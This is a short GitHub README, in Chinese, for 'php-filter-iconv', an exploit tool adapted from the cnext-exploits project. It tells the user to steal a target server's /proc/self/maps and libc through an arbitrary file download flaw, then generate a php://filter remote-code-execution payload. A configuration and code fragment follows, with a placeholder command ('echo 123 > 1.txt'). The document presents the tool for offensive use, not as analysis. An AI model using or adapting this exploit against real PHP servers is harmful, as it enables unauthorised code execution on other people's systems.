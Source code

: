 # php-filter-iconv
修改自
https://github.com/ambionics/cnext-exploits

php-filter-iconv.py用法
通过任意文件下载获取目标的/proc/self/maps和libc-2.x.so，在本机和php-filter-iconv.py放在同目录，然后运行脚本即可生成php://filter/的RCE payload，详细参数调整如下。
```
maps_path = './maps'
cmd = 'echo 123 > 1.txt'
sleep_time = 1
padding = 20

if not os.path.exists(maps_path):
    exit("[-]no maps file")

regions = get_regions(maps_path)
heap, libc_info = get_symbols_and_addresses(regions)

libc_path = libc_info.path
print("[*]download: "+libc_path)

libc_path = './libc-2.23.so'
```


